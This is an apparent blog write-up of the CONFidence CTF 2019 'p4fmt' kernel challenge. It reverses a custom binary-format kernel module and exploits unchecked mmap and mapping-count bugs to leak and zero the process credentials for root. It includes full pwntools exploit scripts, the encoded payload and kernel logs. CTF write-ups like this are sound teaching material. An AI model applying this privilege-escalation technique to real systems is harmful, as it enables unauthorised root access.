 ```yaml
---
title: p4fmt - CONFidence CTF 2019 Teaser
date: '2019-03-19 21:20:12'
layout: post
---
```


> Kernel challs are always a bit painful. No internet access, no SSH, no file copying.
> You're stuck with copy pasting base64'd (sometimes static) ELFs. But what if there was another solution?
> We've created a lightweight, simple binary format for your pwning pleasure. It's time to prove your skills.
>
> [p4fmt.tar.gz 4.3 MB](https://confidence2019-storage.ams3.cdn.digitaloceanspaces.com/challenges/p4fmt_e449a9fc5d3687f5ba91b669db78cfd5f187e5ac32a5ac3cdde32f882dcc5e13.tar.gz)
>
> nc p4fmt.zajebistyc.tf 30002
>

*304 Pts, 10 solves, pwn*

After downloading and extracting the archive, we have a fairly standard qemu setup with an initramfs, bzImage, and run script. Extracting the initramfs gives us the filesystem where we can see a fake flag as well as a kernel module `p4fmt.ko`. The challenge description tells use that p4 have created a new binary format, so this must be the module that adds it.

Opening the module up in Ghirda did not work very well, it had real trobule with the symbol relocation. Unchecking "Perform Symbol Relocations" when loading the module was slightly better, but then there were no symbols unless you opened up the "Relocation Table" window.

![Ghirda Relocation View](/assets/conf19/reloc.jpg)

I found that if I relinked the module into a standard ELF with gcc then Ghidra opened and analysed it correctly.

```bash
gcc p4fmt.ko -o p4fmt.bin -Wl,--unresolved-symbols=ignore-in-object-files
```
<br>

The next stage was to modify `/init` to login as root, as well as changing the run script by adding `nokaslr` to the append flag, and add `-s` so we can connect with gdb. Repacking the initramfs2.cpio.gz was can be done with the following:

```bash
find . -print0 | cpio --null -ov --format=newc | gzip -9 > ../initramfs2.cpio.gz
```

Once we launch qemu, we can get the location of the module from `/proc/modules`, connect with gdb and add the module symbols (using [extract-vmlinux](https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux) to convert the bzImage to vmlinux):

```bash
# cat /proc/modules
p4fmt 16384 0 - Live 0xffffffffc0000000 (O)

gdb ./vmlinux
gdb$ target remote :1234
gdb$ add-symbol-file ./initramfs/p4fmt.ko 0xffffffffc0000000
```

<br>

We now can debug the running kernel module and have Ghirda working, time to start the analysis. 

![Ghirda Relocation View](/assets/conf19/init.jpg)

The module calls `__register_binfmt` to register a new handler, and `p4format` contains a pointer to the function `load_p4_binary(linux_binprm *bprm)`. Looking at this function we can see that it looks at the beginning of the file to see if it starts with `P4\x00`, then branches depending on if the next byte is 0 or 1. Creating a basic struct for this in Ghidra gives us the following:

```c
enum p4_type {
    SIMPLE=0,
    ADVANCED=1
};

struct p4_bin {
    char magic[2];
    char version;
    enum p4_type type;
};
```

![Ghirda Relocation View](/assets/conf19/format.jpg)

In the simple case, the next 4 bytes are ignored and the following 8 bytes are used as the address for `vm_mmap` as well as the entry point.

In the advanced case, the next 4 bytes is the count of regions to be mapped, and the following 8 bytes are used as an offset from `buf` to the location of the mapping info. The mapping info is just three longs: `load_addr`, `length`, and `offset`. The last nibble `load_addr` is also used to determine the mapping protection as well as whether the region is cleared or not. Finally the entry point is set to the `load_addr` of the first mapping. Expanding our structures gives us the following:

```c
struct p4_mapping {
    long load_addr;
    long length;
    long offset;
};

struct p4_bin {
    char magic[2];
    char version;
    enum p4_type type;
    int mapping_count;
    long offset;
};
```

![Ghirda Relocation View](/assets/conf19/mappings.jpg)

Here we can see the first couple of bugs, firstly there is no check on the result of `vm_mmap` before calling `__clear_user`, allowing us to zero out any kernel memory. There is also no check on the mapping offset or count to ensure it stays within the file.

To test that everything is working as we thing it should, we can write a quick python script to create a p4 binary:

```python
from pwn import *

context.arch = "amd64"
context.os = "linux"

code = asm( shellcraft.echo("Hello World!\n") + shellcraft.exit())

payload = ""
payload += "P4"              # magic
payload += p8(0)             # version
payload += p8(1)             # type

payload += p32(2)            # count
payload += p64(0x10)         # offset

payload += p64(0x400040)     # entry
payload += p64(0)
payload += p64(0)

payload += p64(0x400000 | 7) # mapping
payload += p64(0x1000)
payload += p64(0)

payload += code

print "rm a; printf '" + payload.encode("string_escape") + "'>a;chmod +x a; ./a"
```

And then when run we can see that it was successful and `Hello World!` is printed!

```bash
 $ rm a; printf 'P4\x00\x01\x02\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00@\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x07\x00@\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8sme \x0b\x01\x01\x01H1\x04$H\xb8Hello WoPj\x01Xj\x01_j\rZH\x89\xe6\x0f\x051\xffj<X\x0f\x05'>a;chmod +x a; ./a
[ 1373.826312] vm_mmap(load_addr=0x400000, length=0x0, offset=0x0, prot=0)
[ 1373.827737] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
Hello World!
```

Using the unchecked mapping count, we can use our script above and set the count to 6 to get it to print out the address of `cred` from the `linux_binprm` struct (`0x3e8` is our uid, you can also follow `install_exec_creds` to find the offset of creds in linux_binprm).

```bash
$ ./a
[ 1985.638974] vm_mmap(load_addr=0x400000, length=0x0, offset=0x0, prot=0)
[ 1985.639654] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
[ 1985.641174] vm_mmap(load_addr=0x10101010101b000, length=0x656d73b848500101, offset=0x431480101010b20, prot=0)
[ 1985.642006] clear_user(addr=0x10101010101b848, length=0x656d73b848500101)
[ 1985.642936] vm_mmap(load_addr=0x6f6c6c6548b84000, length=0x6a58016a506f5720, offset=0xe689485a0d6a5f01, prot=4)
[ 1985.644299] vm_mmap(load_addr=0xf583c6aff310000, length=0x5, offset=0x7fffffffefb2, prot=7)
[ 1985.645457] clear_user(addr=0xf583c6aff31050f, length=0x5)
[ 1985.645950] vm_mmap(load_addr=0x100000000, length=0x0, offset=0xffff888007597480, prot=1)
Hello World!

gdb$ telescope 0xffff888007597480
0000| 0xffff888007597480 --> 0xffff888007597c00 --> 0xffff888007597780
0008| 0xffff888007597488 --> 0xffff8880076cd450 --> 0x100000002
0016| 0xffff888007597490 --> 0x0
0024| 0xffff888007597498 --> 0x3e8
0032| 0xffff8880075974a0 --> 0x0
0040| 0xffff8880075974a8 --> 0x0
0048| 0xffff8880075974b0 --> 0xffffffff000003e8
0056| 0xffff8880075974b8 --> 0x3e80000003f

```

Also, if we run it a bunch if times then we see that the same address gets reused after a while. Knowing this, we should be able to leak the address of creds struct, setup a mapping to overwrite the ids with 0, then read the flag:

```python
from pwn import *

context.arch = "amd64"
context.os = "linux"

code = asm(shellcraft.cat("/flag") + shellcraft.exit())

creds = 0xffff93a1875f80c0 # leaked creds struct
payload = ""
payload += "P4"          # magic
payload += p8(0)         # version
payload += p8(1)         # type

payload += p32(3)        # count
payload += p64(0x10)     # offset

payload += p64(0x400058) # entry
payload += p64(0)
payload += p64(0)

payload += p64(0x400000 | 7) # prot
payload += p64(0x1000)
payload += p64(0)

payload += p64((creds + 0x10) | 8) # clear
payload += p64(0x20)
payload += p64(0)

payload += code

print "rm b; printf '" + payload.encode("string_escape") + "'>b;chmod +x ./b; ./b"
```

After running this a couple of times we get root!

```
 $ ./b
[   42.996356] vm_mmap(load_addr=0x400000, length=0x0, offset=0x0, prot=0)
[   42.996716] clear_user(addr=0x400058, length=0x0)
[   42.996997] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
[   42.997590] vm_mmap(load_addr=0xffff93a1875f8000, length=0x20, offset=0x0, prot=0)
[   42.998968] clear_user(addr=0xffff93a1875f80d8, length=0x20)
/tmp $ ./b
[   44.806650] vm_mmap(load_addr=0x400000, length=0x0, offset=0x0, prot=0)
[   44.808393] clear_user(addr=0x400058, length=0x0)
[   44.809390] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
[   44.810611] vm_mmap(load_addr=0xffff93a1875f8000, length=0x20, offset=0x0, prot=0)
[   44.811946] clear_user(addr=0xffff93a1875f80d8, length=0x20)
<FLAG WILL BE HERE>
```

Repeating the same steps on the remote gives us the flag (and first blood!):

`p4{4r3_y0U_4_81n4ry_N1njA?}`
